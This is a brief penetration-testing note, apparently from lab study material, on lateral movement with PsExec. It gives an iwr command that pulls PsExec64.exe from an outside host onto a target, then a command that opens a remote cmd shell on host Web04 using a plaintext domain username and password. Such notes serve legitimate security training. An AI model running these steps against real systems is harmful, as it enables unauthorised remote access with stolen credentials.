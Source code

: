 >[!NOTE]
>Need Local Admin, ADMIN$, and File and Printer Sharing

 1) Put PSExec on Target  
```powershell
iwr http://192.168.45.247/PsExec64.exe -UseBasicParsing -OutFile PsExec64.exe 
```
  
2) Run  
```powershell
.\PsExec64.exe -i \\Web04 -u corp\jen -p Nexus123! cmd
```